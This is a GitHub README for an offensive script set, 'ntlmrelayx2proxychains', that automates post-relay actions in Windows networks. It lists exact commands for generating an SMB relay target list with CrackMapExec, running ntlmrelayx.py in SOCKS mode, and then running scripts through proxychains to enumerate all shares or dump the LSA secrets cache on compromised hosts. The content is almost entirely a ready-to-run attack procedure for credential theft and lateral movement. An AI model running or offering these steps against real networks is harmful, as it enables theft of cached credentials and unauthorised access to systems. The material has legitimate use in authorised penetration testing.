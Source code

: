 # ntlmrelayx2proxychains

Ever felt too lazy to explore all shares manually after using ntlmrelayx or felt too lazy to dump the lsa on all systems where you found a local administrator? If so, enjoy my (spaghetti-coded) scripts! :) 

## Steps to follow:
1) `cme smb -u "" -p "" -d domain.tld 0.0.0.0/22 --gen-relay-list targetlist`
2) `ntlmrelayx.py -tf targetlist -socks -smb2support`
3) to explore all shares or dump the lsa cache using proxychains cme: `$bash ./ntlmrelayx2shares` or `$bash ./ntlmrelayx2lsa`

Note: ensure you put bash in front of your command.
